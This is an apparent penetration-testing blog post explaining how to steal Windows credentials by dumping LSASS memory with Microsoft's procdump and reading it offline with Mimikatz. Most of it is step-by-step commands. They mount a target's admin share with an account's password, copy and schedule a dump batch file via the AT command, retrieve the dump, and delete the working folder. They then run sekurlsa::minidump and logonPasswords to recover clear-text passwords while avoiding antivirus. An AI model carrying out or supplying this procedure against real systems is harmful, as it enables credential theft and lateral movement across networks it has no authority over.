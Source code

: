 = Using Mimikatz Alpha or Getting Clear Text Passwords with a Microsoft Tool
:hp-tags: mimikatz, meterpreter, metasploit

Mimikatz is now [built into Metasploit's meterpreter](https://github.com/rapid7/meterpreter/pull/9), you can do load mimikatz from the meterpreter prompt, but if you don't want to go through the hassle of dealing with AV, reverse or bind payloads, meterpreter binaries, and you have clear text credentials for an admin, you can just use Mimikatz's alpha release that allows you to run Mimikatz on your machine against a process memory dump of LSASS. The great thing about this technique is that the only thing on disk is a Microsoft tool.

Mimikatz Minidump: [http://blog.gentilkiwi.com/securite/mimikatz/minidump](http://blog.gentilkiwi.com/securite/mimikatz/minidump)

Procdump: [http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx](http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx)

Lets start. First we make sure our authentication works against the box and we can look inside of C$ (usually only admins can)

```
net use \\TARGETBOXC$ /user:DOMAIN\serviceaccount serviceaccount123
dir \\TARGETBOX\C$
```    

If that works then we want to check that we can all the "AT" command on the remote host:

```
at \\TARGETBOX
```

All set. Next lets prep our workspace on the remote host. We are using the C:\Temp directory.

```
mkdir \\TARGETBOX\C$\Temp
dir \\TARGETBOX\C$\Temp
copy c:\temp\procdump.exe \\TARGETBOXC$
copy c:\temp\procdump.bat \\TARGETBOXC$
``` 

The contents of procdump.bat are:

```
@echo off
C:\temp\procdump.exe -accepteula -ma lsass.exe %COMPUTERNAME%_lsass.dmp
``` 

I'm using the computer name in the memory dump name to help me keep track of where the dump came from, but also help me notice when I've dumped more than one IP that is actually the same host.

Next we schedule the task. Use net time to determine the local time for the remote machine.

```
net time \\TARGETBOX
at \\TARGETBOX 13:52 C:\Temp\procdump.bat
``` 

Pull down the file and clean up:

```
dir \\TARGETBOX\C$\Temp
copy \\TARGETBOX\C$\Temp\*lsass.dmp C:\temp\output\
rmdir /s \\TARGETBOX\C$\Temp
``` 

On your side the only thing you need to make sure is that you are running Mimikatz on a similar version and architecture you pulled from. Use the following url for reference:[http://blog.gentilkiwi.com/wp-content/uploads/2013/04/minidump_matrix.png](http://blog.gentilkiwi.com/wp-content/uploads/2013/04/minidump_matrix.png)

Load up the Alpha version of Mimikatz, switch it to minidump mode and you're dumping creds:
 
```
mimikatz # sekurlsa::minidump SUPERCOMPUTER_lsass.dmp
Switch to MINIDUMP

mimikatz # sekurlsa::logonPasswords full
```

Thats it. Password dumping without ever using a "Hacker" tool on target. Much love Microsoft. And even more to Mimikatz creator [@gentilkiwi](http://twitter.com/gentilkiwi) - Benjamin Delpy for both this alpha release and changing his licensing to allow Mimikatz code to be integrated into Meterpreter.